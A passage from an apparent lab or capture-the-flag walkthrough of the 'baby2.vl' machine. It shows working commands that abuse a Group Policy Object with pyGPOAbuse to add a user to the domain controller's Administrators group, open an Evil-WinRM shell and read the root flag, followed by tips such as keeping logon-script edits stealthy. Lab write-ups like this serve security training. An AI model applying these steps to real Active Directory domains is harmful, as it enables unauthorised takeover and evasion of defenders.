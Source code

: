 ```bash
❯ git clone https://github.com/Hackndo/pyGPOAbuse.git
❯ cd pyGPOAbuse/
❯ uv add --script pygpoabuse.py -r requirements.txt

# Abuse the GPO to add GPOADM to local Administrators on the DC
❯ uv run --script pygpoabuse.py baby2.vl/GPOADM:'S3cure!Passw0rd' \
  -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 \
  -command "net localgroup administrators GPOADM /add" -f
      Built impacket==0.12.0
Installed 36 packages in 71ms
[+] ScheduledTask TASK_1194797a created!
```

After Group Policy refresh (scheduled task deployment), `GPOADM` shows up in the local Administrators group. A quick `nxc smb` check should mark the host as **Pwn3d!** as well.

## Admin shell

With admin rights via WinRM:

```bash
❯ evil-winrm -i dc.baby2.vl -u GPOADM -p 'S3cure!Passw0rd'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\gpoadm\Documents>
```

### Root flag
Then read `root.txt` from the Administrator desktop:
```powershell
*Evil-WinRM* PS C:\Users\gpoadm\Documents> type C:\Users\Administrator\Desktop\root.txt
<REDACTED>
*Evil-WinRM* PS C:\Users\gpoadm\Documents>
```

# Notes & Pitfalls
- **SYSVOL writability**: tooling may claim read-only, but SMB ACLs can still allow writes. Always test writes safely (e.g., upload with a different filename first) before replacing production files.
- **Low-and-slow edits**: preserve legitimate logon script functionality to avoid breaking user workflows. Appending is stealthier than replacing.
- **GPO propagation delay**: scheduled tasks via GPO aren’t instant. Give AD time to replicate/refresh.
- **Kerberos time**: if the initial scans show time skew warnings, sync before Kerberos-dependent operations.

---
---